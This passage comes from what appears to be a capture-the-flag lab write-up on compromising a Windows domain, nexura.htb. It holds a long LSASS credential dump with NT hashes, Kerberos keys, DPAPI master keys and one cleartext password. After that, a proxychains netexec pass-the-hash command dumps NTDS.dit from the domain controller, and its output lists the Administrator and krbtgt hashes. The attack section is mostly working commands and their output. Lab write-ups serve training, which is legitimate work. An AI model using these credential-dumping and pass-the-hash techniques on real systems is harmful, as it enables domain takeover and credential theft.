                NT: 173a6112481af736c28f0d84d0a4d1a9
                SHA1: ae15218a2c7769975bcacef919c2c834e021be62
                DPAPI: 0000000000000000000000000000000000000000
        == WDIGEST [9b46]==
                username JUMP01$
                domainname NEXURA
                password None
                password (hex)
        == Kerberos ==
                Username: JUMP01$
                Domain: nexura.htb
                Password: db00a971098b6c2d81b32564701a2fee28198152a30d44d79a7659e00d03e3f77cbda46f2c650921223c5825cbf287143bec358f191f20e04c33011819569d1310cf2fe828868577285c3b6ff6752a205f90426c31858d6571f5536fd82134e1dc0834117225715b8dffbc209d540a9cc424262574e5cbf269f8872dd7f10c10407df7e3fd3bcdf0c52d4c45afac01a994c6b176386fce561f6a1ce6797ae194876650dadcc0178712d237bcddfa80bcb87a318c431630efd3df36974012628d330012a2caa3af5d80c2ba450bcf1f08e1990b4e4f6200c90dad28f87ec233016c504010f82ca56ed6ce2ac6e34332f6
                password (hex)db00a971098b6c2d81b32564701a2fee28198152a30d44d79a7659e00d03e3f77cbda46f2c650921223c5825cbf287143bec358f191f20e04c33011819569d1310cf2fe828868577285c3b6ff6752a205f90426c31858d6571f5536fd82134e1dc0834117225715b8dffbc209d540a9cc424262574e5cbf269f8872dd7f10c10407df7e3fd3bcdf0c52d4c45afac01a994c6b176386fce561f6a1ce6797ae194876650dadcc0178712d237bcddfa80bcb87a318c431630efd3df36974012628d330012a2caa3af5d80c2ba450bcf1f08e1990b4e4f6200c90dad28f87ec233016c504010f82ca56ed6ce2ac6e34332f6
                AES128 Key: 173a6112481af736c28f0d84d0a4d1a9
                AES256 Key: 8a4c6459685562e18587d13d29dfd948738e2a02eb133d6f81e82b5691816808
        == WDIGEST [9b46]==
                username JUMP01$
                domainname NEXURA
                password None
                password (hex)

== LogonSession ==
authentication_id 38617 (96d9)
session_id 0
username 
domainname 
logon_server 
logon_time 2026-08-06T06:16:46.019637+00:00
sid None
luid 38617
        == MSV ==
                Username: JUMP01$
                Domain: NEXURA
                LM: NA
                NT: 173a6112481af736c28f0d84d0a4d1a9
                SHA1: ae15218a2c7769975bcacef919c2c834e021be62
                DPAPI: 0000000000000000000000000000000000000000

== LogonSession ==
authentication_id 2116563 (204bd3)
session_id 3
username bdavid
domainname NEXURA
logon_server DC01
logon_time 2026-08-06T07:28:18.878679+00:00
sid S-1-5-21-1333759777-277832620-2286231135-1105
luid 2116563
        == MSV ==
                Username: bdavid
                Domain: NEXURA
                LM: NA
                NT: 82c5ef7f2612567964070d04fe46a5d0
                SHA1: 71a8aa8444011bd599841eb1760ae0240e5451e1
                DPAPI: f72c50843831ce99704c8c3ce013dfe300000000
        == WDIGEST [204bd3]==
                username bdavid
                domainname NEXURA
                password None
                password (hex)
        == Kerberos ==
                Username: bdavid
                Domain: NEXURA.HTB
                AES128 Key: 82c5ef7f2612567964070d04fe46a5d0
                AES256 Key: f7f6449b2788bf507230a6f6e79c5accf17b060dc7d50e2446d91397f8092dee
        == WDIGEST [204bd3]==
                username bdavid
                domainname NEXURA
                password None
                password (hex)
        == DPAPI [204bd3]==
                luid 2116563
                key_guid 95ce54f1-e75d-4bd9-8deb-2d41b5f4ca9a
                masterkey 48155411bb3dbd515618c747fbc33dae2b127013c461a3914021edf7d805c57eed4d2733b31117e449e516ac7462ded81374f4ea9a9f026fe79684e2719d3c42
                sha1_masterkey bf446e1098dc793360dda97e46a1e68c506dff55

== LogonSession ==
authentication_id 2116479 (204b7f)
session_id 3
username bdavid
domainname NEXURA
logon_server DC01
logon_time 2026-08-06T07:28:18.878679+00:00
sid S-1-5-21-1333759777-277832620-2286231135-1105
luid 2116479
        == MSV ==
                Username: bdavid
                Domain: NEXURA
                LM: NA
                NT: 82c5ef7f2612567964070d04fe46a5d0
                SHA1: 71a8aa8444011bd599841eb1760ae0240e5451e1
                DPAPI: f72c50843831ce99704c8c3ce013dfe300000000
        == WDIGEST [204b7f]==
                username bdavid
                domainname NEXURA
                password None
                password (hex)
        == Kerberos ==
                Username: bdavid
                Domain: NEXURA.HTB
                AES128 Key: 82c5ef7f2612567964070d04fe46a5d0
                AES256 Key: f7f6449b2788bf507230a6f6e79c5accf17b060dc7d50e2446d91397f8092dee
        == WDIGEST [204b7f]==
                username bdavid
                domainname NEXURA
                password None
                password (hex)

== LogonSession ==
authentication_id 2108088 (202ab8)
session_id 3
username DWM-3
domainname Window Manager
logon_server 
logon_time 2026-08-06T07:28:18.159914+00:00
sid S-1-5-90-0-3
luid 2108088
        == MSV ==
                Username: JUMP01$
                Domain: NEXURA
                LM: NA
                NT: 173a6112481af736c28f0d84d0a4d1a9
                SHA1: ae15218a2c7769975bcacef919c2c834e021be62
                DPAPI: 0000000000000000000000000000000000000000
        == WDIGEST [202ab8]==
                username JUMP01$
                domainname NEXURA
                password None
                password (hex)
        == Kerberos ==
                Username: JUMP01$
                Domain: nexura.htb
                Password: db00a971098b6c2d81b32564701a2fee28198152a30d44d79a7659e00d03e3f77cbda46f2c650921223c5825cbf287143bec358f191f20e04c33011819569d1310cf2fe828868577285c3b6ff6752a205f90426c31858d6571f5536fd82134e1dc0834117225715b8dffbc209d540a9cc424262574e5cbf269f8872dd7f10c10407df7e3fd3bcdf0c52d4c45afac01a994c6b176386fce561f6a1ce6797ae194876650dadcc0178712d237bcddfa80bcb87a318c431630efd3df36974012628d330012a2caa3af5d80c2ba450bcf1f08e1990b4e4f6200c90dad28f87ec233016c504010f82ca56ed6ce2ac6e34332f6
                password (hex)db00a971098b6c2d81b32564701a2fee28198152a30d44d79a7659e00d03e3f77cbda46f2c650921223c5825cbf287143bec358f191f20e04c33011819569d1310cf2fe828868577285c3b6ff6752a205f90426c31858d6571f5536fd82134e1dc0834117225715b8dffbc209d540a9cc424262574e5cbf269f8872dd7f10c10407df7e3fd3bcdf0c52d4c45afac01a994c6b176386fce561f6a1ce6797ae194876650dadcc0178712d237bcddfa80bcb87a318c431630efd3df36974012628d330012a2caa3af5d80c2ba450bcf1f08e1990b4e4f6200c90dad28f87ec233016c504010f82ca56ed6ce2ac6e34332f6
                AES128 Key: 173a6112481af736c28f0d84d0a4d1a9
                AES256 Key: 8a4c6459685562e18587d13d29dfd948738e2a02eb133d6f81e82b5691816808
        == WDIGEST [202ab8]==
                username JUMP01$
                domainname NEXURA
                password None
                password (hex)

== LogonSession ==
authentication_id 2107020 (20268c)
session_id 3
username UMFD-3
domainname Font Driver Host
logon_server 
logon_time 2026-08-06T07:28:18.113049+00:00
sid S-1-5-96-0-3
luid 2107020
        == MSV ==
                Username: JUMP01$
                Domain: NEXURA
                LM: NA
                NT: 173a6112481af736c28f0d84d0a4d1a9
                SHA1: ae15218a2c7769975bcacef919c2c834e021be62
                DPAPI: 0000000000000000000000000000000000000000
        == WDIGEST [20268c]==
                username JUMP01$
                domainname NEXURA
                password None
                password (hex)
        == Kerberos ==
                Username: JUMP01$
                Domain: nexura.htb
                Password: db00a971098b6c2d81b32564701a2fee28198152a30d44d79a7659e00d03e3f77cbda46f2c650921223c5825cbf287143bec358f191f20e04c33011819569d1310cf2fe828868577285c3b6ff6752a205f90426c31858d6571f5536fd82134e1dc0834117225715b8dffbc209d540a9cc424262574e5cbf269f8872dd7f10c10407df7e3fd3bcdf0c52d4c45afac01a994c6b176386fce561f6a1ce6797ae194876650dadcc0178712d237bcddfa80bcb87a318c431630efd3df36974012628d330012a2caa3af5d80c2ba450bcf1f08e1990b4e4f6200c90dad28f87ec233016c504010f82ca56ed6ce2ac6e34332f6
                password (hex)db00a971098b6c2d81b32564701a2fee28198152a30d44d79a7659e00d03e3f77cbda46f2c650921223c5825cbf287143bec358f191f20e04c33011819569d1310cf2fe828868577285c3b6ff6752a205f90426c31858d6571f5536fd82134e1dc0834117225715b8dffbc209d540a9cc424262574e5cbf269f8872dd7f10c10407df7e3fd3bcdf0c52d4c45afac01a994c6b176386fce561f6a1ce6797ae194876650dadcc0178712d237bcddfa80bcb87a318c431630efd3df36974012628d330012a2caa3af5d80c2ba450bcf1f08e1990b4e4f6200c90dad28f87ec233016c504010f82ca56ed6ce2ac6e34332f6
                AES128 Key: 173a6112481af736c28f0d84d0a4d1a9
                AES256 Key: 8a4c6459685562e18587d13d29dfd948738e2a02eb133d6f81e82b5691816808
        == WDIGEST [20268c]==
                username JUMP01$
                domainname NEXURA
                password None
                password (hex)

== LogonSession ==
authentication_id 2104050 (201af2)
session_id 0
username bdavid
domainname NEXURA
logon_server DC01
logon_time 2026-08-06T07:28:15.159954+00:00
sid S-1-5-21-1333759777-277832620-2286231135-1105
luid 2104050

== LogonSession ==
authentication_id 266631 (41187)
session_id 2
username stom
domainname NEXURA
logon_server DC01
logon_time 2026-08-06T06:17:33.141551+00:00
sid S-1-5-21-1333759777-277832620-2286231135-1106
luid 266631
        == MSV ==
                Username: stom
                Domain: NEXURA
                LM: NA
                NT: 21ea958524cfd9a7791737f8d2f764fa
                SHA1: f2fc2263e4d7cff0fbb19ef485891774f0ad6031
                DPAPI: 06e85cb199e902a0145ff04963e7dd7200000000
        == WDIGEST [41187]==
                username stom
                domainname NEXURA
                password None
                password (hex)
        == Kerberos ==
                Username: stom
                Domain: NEXURA.HTB
                AES128 Key: 21ea958524cfd9a7791737f8d2f764fa
                AES256 Key: 63486142af3957430832a4bdcc9e984ef4e397cf6c78a7bb5ab9adfb07ce22da
        == WDIGEST [41187]==
                username stom
                domainname NEXURA
                password None
                password (hex)
        == DPAPI [41187]==
                luid 266631
                key_guid 33fbd25b-2488-49ef-9fa2-7a96959acb95
                masterkey 0528dd7d0cfa8ca48e12bf937ab2dcd92fa588f958716a9abc6fa49444b9d580a0ab3d8f7657e4a4d327fe7df824c112ec8a3d04c22f8050e669c8f256983cda
                sha1_masterkey 1cf754450d3c0515af105fd64ef952f9486495fb

== LogonSession ==
authentication_id 266561 (41141)
session_id 2
username stom
domainname NEXURA
logon_server DC01
logon_time 2026-08-06T06:17:33.141551+00:00
sid S-1-5-21-1333759777-277832620-2286231135-1106
luid 266561
        == MSV ==
                Username: stom
                Domain: NEXURA
                LM: NA
                NT: 21ea958524cfd9a7791737f8d2f764fa
                SHA1: f2fc2263e4d7cff0fbb19ef485891774f0ad6031
                DPAPI: 06e85cb199e902a0145ff04963e7dd7200000000
        == WDIGEST [41141]==
                username stom
                domainname NEXURA
                password None
                password (hex)
        == Kerberos ==
                Username: stom
                Domain: NEXURA.HTB
                AES128 Key: 21ea958524cfd9a7791737f8d2f764fa
                AES256 Key: 63486142af3957430832a4bdcc9e984ef4e397cf6c78a7bb5ab9adfb07ce22da
        == WDIGEST [41141]==
                username stom
                domainname NEXURA
                password None
                password (hex)

== LogonSession ==
authentication_id 246465 (3c2c1)
session_id 2
username DWM-2
domainname Window Manager
logon_server 
logon_time 2026-08-06T06:17:32.318850+00:00
sid S-1-5-90-0-2
luid 246465
        == MSV ==
                Username: JUMP01$
                Domain: NEXURA
                LM: NA
                NT: 173a6112481af736c28f0d84d0a4d1a9
                SHA1: ae15218a2c7769975bcacef919c2c834e021be62
                DPAPI: 0000000000000000000000000000000000000000
        == WDIGEST [3c2c1]==
                username JUMP01$
                domainname NEXURA
                password None
                password (hex)
        == Kerberos ==
                Username: JUMP01$
                Domain: nexura.htb
                Password: db00a971098b6c2d81b32564701a2fee28198152a30d44d79a7659e00d03e3f77cbda46f2c650921223c5825cbf287143bec358f191f20e04c33011819569d1310cf2fe828868577285c3b6ff6752a205f90426c31858d6571f5536fd82134e1dc0834117225715b8dffbc209d540a9cc424262574e5cbf269f8872dd7f10c10407df7e3fd3bcdf0c52d4c45afac01a994c6b176386fce561f6a1ce6797ae194876650dadcc0178712d237bcddfa80bcb87a318c431630efd3df36974012628d330012a2caa3af5d80c2ba450bcf1f08e1990b4e4f6200c90dad28f87ec233016c504010f82ca56ed6ce2ac6e34332f6
                password (hex)db00a971098b6c2d81b32564701a2fee28198152a30d44d79a7659e00d03e3f77cbda46f2c650921223c5825cbf287143bec358f191f20e04c33011819569d1310cf2fe828868577285c3b6ff6752a205f90426c31858d6571f5536fd82134e1dc0834117225715b8dffbc209d540a9cc424262574e5cbf269f8872dd7f10c10407df7e3fd3bcdf0c52d4c45afac01a994c6b176386fce561f6a1ce6797ae194876650dadcc0178712d237bcddfa80bcb87a318c431630efd3df36974012628d330012a2caa3af5d80c2ba450bcf1f08e1990b4e4f6200c90dad28f87ec233016c504010f82ca56ed6ce2ac6e34332f6
                AES128 Key: 173a6112481af736c28f0d84d0a4d1a9
                AES256 Key: 8a4c6459685562e18587d13d29dfd948738e2a02eb133d6f81e82b5691816808
        == WDIGEST [3c2c1]==
                username JUMP01$
                domainname NEXURA
                password None
                password (hex)

== LogonSession ==
authentication_id 245652 (3bf94)
session_id 2
username UMFD-2
domainname Font Driver Host
logon_server 
logon_time 2026-08-06T06:17:32.270857+00:00
sid S-1-5-96-0-2
luid 245652
        == MSV ==
                Username: JUMP01$
                Domain: NEXURA
                LM: NA
                NT: 173a6112481af736c28f0d84d0a4d1a9
                SHA1: ae15218a2c7769975bcacef919c2c834e021be62
                DPAPI: 0000000000000000000000000000000000000000
        == WDIGEST [3bf94]==
                username JUMP01$
                domainname NEXURA
                password None
                password (hex)
        == Kerberos ==
                Username: JUMP01$
                Domain: nexura.htb
                Password: db00a971098b6c2d81b32564701a2fee28198152a30d44d79a7659e00d03e3f77cbda46f2c650921223c5825cbf287143bec358f191f20e04c33011819569d1310cf2fe828868577285c3b6ff6752a205f90426c31858d6571f5536fd82134e1dc0834117225715b8dffbc209d540a9cc424262574e5cbf269f8872dd7f10c10407df7e3fd3bcdf0c52d4c45afac01a994c6b176386fce561f6a1ce6797ae194876650dadcc0178712d237bcddfa80bcb87a318c431630efd3df36974012628d330012a2caa3af5d80c2ba450bcf1f08e1990b4e4f6200c90dad28f87ec233016c504010f82ca56ed6ce2ac6e34332f6
                password (hex)db00a971098b6c2d81b32564701a2fee28198152a30d44d79a7659e00d03e3f77cbda46f2c650921223c5825cbf287143bec358f191f20e04c33011819569d1310cf2fe828868577285c3b6ff6752a205f90426c31858d6571f5536fd82134e1dc0834117225715b8dffbc209d540a9cc424262574e5cbf269f8872dd7f10c10407df7e3fd3bcdf0c52d4c45afac01a994c6b176386fce561f6a1ce6797ae194876650dadcc0178712d237bcddfa80bcb87a318c431630efd3df36974012628d330012a2caa3af5d80c2ba450bcf1f08e1990b4e4f6200c90dad28f87ec233016c504010f82ca56ed6ce2ac6e34332f6
                AES128 Key: 173a6112481af736c28f0d84d0a4d1a9
                AES256 Key: 8a4c6459685562e18587d13d29dfd948738e2a02eb133d6f81e82b5691816808
        == WDIGEST [3bf94]==
                username JUMP01$
                domainname NEXURA
                password None
                password (hex)

== LogonSession ==
authentication_id 223261 (3681d)
session_id 0
username stom
domainname NEXURA
logon_server DC01
logon_time 2026-08-06T06:17:18.550801+00:00
sid S-1-5-21-1333759777-277832620-2286231135-1106
luid 223261
        == MSV ==
                Username: stom
                Domain: NEXURA
                LM: NA
                NT: 21ea958524cfd9a7791737f8d2f764fa
                SHA1: f2fc2263e4d7cff0fbb19ef485891774f0ad6031
                DPAPI: 06e85cb199e902a0145ff04963e7dd7200000000
        == WDIGEST [3681d]==
                username stom
                domainname NEXURA
                password None
                password (hex)
        == Kerberos ==
                Username: stom
                Domain: NEXURA.HTB
                Password: calves-warp-learning1
                password (hex)630061006c007600650073002d0077006100720070002d006c006500610072006e0069006e0067003100000000000000
                AES128 Key: 21ea958524cfd9a7791737f8d2f764fa
                AES256 Key: 63486142af3957430832a4bdcc9e984ef4e397cf6c78a7bb5ab9adfb07ce22da
        == WDIGEST [3681d]==
                username stom
                domainname NEXURA
                password None
                password (hex)

== LogonSession ==
authentication_id 997 (3e5)
session_id 0
username LOCAL SERVICE
domainname NT AUTHORITY
logon_server 
logon_time 2026-08-06T06:16:47.160160+00:00
sid S-1-5-19
luid 997
        == Kerberos ==
                Username: 
                Domain: 

== LogonSession ==
authentication_id 39775 (9b5f)
session_id 1
username UMFD-1
domainname Font Driver Host
logon_server 
logon_time 2026-08-06T06:16:46.378930+00:00
sid S-1-5-96-0-1
luid 39775
        == MSV ==
                Username: JUMP01$
                Domain: NEXURA
                LM: NA
                NT: 173a6112481af736c28f0d84d0a4d1a9
                SHA1: ae15218a2c7769975bcacef919c2c834e021be62
                DPAPI: 0000000000000000000000000000000000000000
        == WDIGEST [9b5f]==
                username JUMP01$
                domainname NEXURA
                password None
                password (hex)
        == Kerberos ==
                Username: JUMP01$
                Domain: nexura.htb
                Password: db00a971098b6c2d81b32564701a2fee28198152a30d44d79a7659e00d03e3f77cbda46f2c650921223c5825cbf287143bec358f191f20e04c33011819569d1310cf2fe828868577285c3b6ff6752a205f90426c31858d6571f5536fd82134e1dc0834117225715b8dffbc209d540a9cc424262574e5cbf269f8872dd7f10c10407df7e3fd3bcdf0c52d4c45afac01a994c6b176386fce561f6a1ce6797ae194876650dadcc0178712d237bcddfa80bcb87a318c431630efd3df36974012628d330012a2caa3af5d80c2ba450bcf1f08e1990b4e4f6200c90dad28f87ec233016c504010f82ca56ed6ce2ac6e34332f6
                password (hex)db00a971098b6c2d81b32564701a2fee28198152a30d44d79a7659e00d03e3f77cbda46f2c650921223c5825cbf287143bec358f191f20e04c33011819569d1310cf2fe828868577285c3b6ff6752a205f90426c31858d6571f5536fd82134e1dc0834117225715b8dffbc209d540a9cc424262574e5cbf269f8872dd7f10c10407df7e3fd3bcdf0c52d4c45afac01a994c6b176386fce561f6a1ce6797ae194876650dadcc0178712d237bcddfa80bcb87a318c431630efd3df36974012628d330012a2caa3af5d80c2ba450bcf1f08e1990b4e4f6200c90dad28f87ec233016c504010f82ca56ed6ce2ac6e34332f6
                AES128 Key: 173a6112481af736c28f0d84d0a4d1a9
                AES256 Key: 8a4c6459685562e18587d13d29dfd948738e2a02eb133d6f81e82b5691816808
        == WDIGEST [9b5f]==
                username JUMP01$
                domainname NEXURA
                password None
                password (hex)

== LogonSession ==
authentication_id 999 (3e7)
session_id 0
username JUMP01$
domainname NEXURA
logon_server 
logon_time 2026-08-06T06:16:45.941571+00:00
sid S-1-5-18
luid 999
        == WDIGEST [3e7]==
                username JUMP01$
                domainname NEXURA
                password None
                password (hex)
        == Kerberos ==
                Username: jump01$
                Domain: NEXURA.HTB
                Password: db00a971098b6c2d81b32564701a2fee28198152a30d44d79a7659e00d03e3f77cbda46f2c650921223c5825cbf287143bec358f191f20e04c33011819569d1310cf2fe828868577285c3b6ff6752a205f90426c31858d6571f5536fd82134e1dc0834117225715b8dffbc209d540a9cc424262574e5cbf269f8872dd7f10c10407df7e3fd3bcdf0c52d4c45afac01a994c6b176386fce561f6a1ce6797ae194876650dadcc0178712d237bcddfa80bcb87a318c431630efd3df36974012628d330012a2caa3af5d80c2ba450bcf1f08e1990b4e4f6200c90dad28f87ec233016c504010f82ca56ed6ce2ac6e34332f6
                password (hex)db00a971098b6c2d81b32564701a2fee28198152a30d44d79a7659e00d03e3f77cbda46f2c650921223c5825cbf287143bec358f191f20e04c33011819569d1310cf2fe828868577285c3b6ff6752a205f90426c31858d6571f5536fd82134e1dc0834117225715b8dffbc209d540a9cc424262574e5cbf269f8872dd7f10c10407df7e3fd3bcdf0c52d4c45afac01a994c6b176386fce561f6a1ce6797ae194876650dadcc0178712d237bcddfa80bcb87a318c431630efd3df36974012628d330012a2caa3af5d80c2ba450bcf1f08e1990b4e4f6200c90dad28f87ec233016c504010f82ca56ed6ce2ac6e34332f6
                AES128 Key: 173a6112481af736c28f0d84d0a4d1a9
                AES256 Key: 477ad74cfadc8467a8daa778f9b04281c4f743bf4f425d5e430564c03294235c
        == WDIGEST [3e7]==
                username JUMP01$
                domainname NEXURA
                password None
                password (hex)
        == DPAPI [3e7]==
                luid 999
                key_guid d4bfcc8b-5eec-485d-8adb-9ed4ae5656d6
                masterkey eca925284a52906e2fd6cc17fc32eb00147ee9658930c82de6903034e2ba338fa259e096ced51569555490d1dc5903f1b2e9bbd87996b5e95c81b5c1bad0c28c
                sha1_masterkey 785e6d5a1dc4a77a4b963b4198b2b5754000a6ef
        == DPAPI [3e7]==
                luid 999
                key_guid 6f898230-c272-4f85-875c-9f7b354ce485
                masterkey 515312a4b821ede8f2d839db59ca683d55f8a3a22568d80639e2dd4f6986a4b5dc8ec78bdd54aa643c3856fbb2602301c05f37c763bce3dca8addd70b9709018
                sha1_masterkey a72bb2f3d888269936f60a4deb2ea5fc9382ddfc
        == DPAPI [3e7]==
                luid 999
                key_guid 540d8512-233e-404b-a32f-78618de0be5d
                masterkey daf040357da1587b888e55f743b4789b2449774d07d5ce9865e9093e3731902a09c6370587c9374a0a9e1eb0fb3eddb03770ea41785e0fd76ad7639a177c134c
                sha1_masterkey 307f09c608ccbdd10892b48158f83d07d007d410
        == DPAPI [3e7]==
                luid 999
                key_guid 60dddcd7-ae2a-4d56-9015-8c9610d22f1c
                masterkey 559fac54ce814e726cfc905112283d3dd9b6952573553fccba02fb183fb1df4c3ea9d42f1ed8d82b59a38600c1c16bc620795c2f9d99e3d7d97cd748f00a84e2
                sha1_masterkey c924316a1562430664979e3b0f6b35cfac1df0c1
        == DPAPI [3e7]==
                luid 999
                key_guid a3e4e62a-dabd-46af-ad98-19e980bfcacc
                masterkey bf2d5ec8e50a7a1f39a95b285b89c34801f9fc20e4de040be484dd9e9e0da541103d9d52a4262cca2c56c42d6a6623a4c3688d11eead456d29ba4232b1d56ad6
                sha1_masterkey deafb3b197371274c7968d7fd84264210e124102
        == DPAPI [3e7]==
                luid 999
                key_guid a81a2dcc-bfc1-4647-b0a7-abb508a6e7df
                masterkey 0de9f713c2a2c3490faf703ceb57c458020429170615bca60b87519ce8eb5711732d444211b71e80aa9ac379ef6ba0aea33c3a6ebd92860cb6b20ff1bc9a0ac7
                sha1_masterkey 59cee312e149c59e836474079479757ac7e3842c
        == DPAPI [3e7]==
                luid 999
                key_guid 9ccbb5e8-66c9-4210-a46c-a72e8f750734
                masterkey cb6dd3fe4b3f3a6afa0520d84b39539205139ebd81b68c49aef5c365d975920331c43fb06990aa3ef8c07860fdda33100d3b4cdf259d02cc02a3114ecf6e7721
                sha1_masterkey a0c3d07ffb66b9d1d3a9e02237d56fde0fc217d1
```
What matters:
```bash
== LogonSession ==
authentication_id 266631 (41187)
session_id 2
username stom
domainname NEXURA
logon_server DC01
logon_time 2026-08-06T06:17:33.141551+00:00
sid S-1-5-21-1333759777-277832620-2286231135-1106
luid 266631
        == MSV ==
                Username: stom
                Domain: NEXURA
                LM: NA
                NT: 21ea958524cfd9a7791737f8d2f764fa
                SHA1: f2fc2263e4d7cff0fbb19ef485891774f0ad6031
                DPAPI: 06e85cb199e902a0145ff04963e7dd7200000000
```

## Attacking NTDS.dit
```bash
┌──(jameskaois㉿kali)-[~/loot]
└─$ proxychains4 netexec smb 172.16.119.11 -u stom -H 21ea958524cfd9a7791737f8d2f764fa -M ntdsutil
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/aarch64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.17
[proxychains] Strict chain  ...  127.0.0.1:9999  ...  172.16.119.11:445  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:9999  ...  172.16.119.11:445  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:9999  ...  172.16.119.11:135  ...  OK
SMB         172.16.119.11   445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:nexura.htb) (signing:True) (SMBv1:None) (Null Auth:True)
[proxychains] Strict chain  ...  127.0.0.1:9999  ...  172.16.119.11:445  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:9999  ...  172.16.119.11:445  ...  OK
SMB         172.16.119.11   445    DC01             [+] nexura.htb\stom:21ea958524cfd9a7791737f8d2f764fa (Pwn3d!)
NTDSUTIL    172.16.119.11   445    DC01             [*] Dumping ntds with ntdsutil.exe to C:\Windows\Temp\178600266
NTDSUTIL    172.16.119.11   445    DC01             Dumping the NTDS, this could take a while so go grab a redbull...
[proxychains] Strict chain  ...  127.0.0.1:9999  ...  172.16.119.11:135  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:9999  ...  172.16.119.11:56648  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:9999  ...  172.16.119.11:56648  ...  OK
NTDSUTIL    172.16.119.11   445    DC01             [+] NTDS.dit dumped to C:\Windows\Temp\178600266
NTDSUTIL    172.16.119.11   445    DC01             [*] Copying NTDS dump to /tmp/tmpn4w8zzeu
NTDSUTIL    172.16.119.11   445    DC01             [*] NTDS dump copied to /tmp/tmpn4w8zzeu
[proxychains] Strict chain  ...  127.0.0.1:9999  ...  172.16.119.11:135  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:9999  ...  172.16.119.11:56648  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:9999  ...  172.16.119.11:56648  ...  OK
NTDSUTIL    172.16.119.11   445    DC01             [+] Deleted C:\Windows\Temp\178600266 remote dump directory
NTDSUTIL    172.16.119.11   445    DC01             [+] Dumping the NTDS, this could take a while so go grab a redbull...
NTDSUTIL    172.16.119.11   445    DC01             Administrator:500:aad3b435b51404eeaad3b435b51404ee:36e09e1e6ade94d63fbcab5e5b8d6d23:::
NTDSUTIL    172.16.119.11   445    DC01             Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    172.16.119.11   445    DC01             DC01$:1002:aad3b435b51404eeaad3b435b51404ee:4b802978fe1c533efcd834f76afbed14:::
NTDSUTIL    172.16.119.11   445    DC01             krbtgt:502:aad3b435b51404eeaad3b435b51404ee:11dee8f685882eb4f78a450291569bd0:::
NTDSUTIL    172.16.119.11   445    DC01             nexura.htb\bdavid:1105:aad3b435b51404eeaad3b435b51404ee:82c5ef7f2612567964070d04fe46a5d0:::
NTDSUTIL    172.16.119.11   445    DC01             nexura.htb\stom:1106:aad3b435b51404eeaad3b435b51404ee:21ea958524cfd9a7791737f8d2f764fa:::
NTDSUTIL    172.16.119.11   445    DC01             nexura.htb\hwilliam:1107:aad3b435b51404eeaad3b435b51404ee:f3ac86b290a51fb59a1a66f50b658e1f:::
NTDSUTIL    172.16.119.11   445    DC01             FILE01$:1108:aad3b435b51404eeaad3b435b51404ee:2f926eef715e3a58da7eabdbd6bd1a30:::
NTDSUTIL    172.16.119.11   445    DC01             JUMP01$:1109:aad3b435b51404eeaad3b435b51404ee:173a6112481af736c28f0d84d0a4d1a9:::
NTDSUTIL    172.16.119.11   445    DC01             [+] Dumped 9 NTDS hashes to /home/jameskaois/.nxc/logs/ntds/DC01_172.16.119.11_2026-08-06_145053.ntds of which 6 were added to the database
NTDSUTIL    172.16.119.11   445    DC01             [*] To extract only enabled accounts from the output file, run the following command: 
NTDSUTIL    172.16.119.11   445    DC01             [*] grep -iv disabled /home/jameskaois/.nxc/logs/ntds/DC01_172.16.119.11_2026-08-06_145053.ntds | cut -d ':' -f1
```

What we need: `Administrator:500:aad3b435b51404eeaad3b435b51404ee:36e09e1e6ade94d63fbcab5e5b8d6d23:::`

---

[Back to Module Index](./README.md)
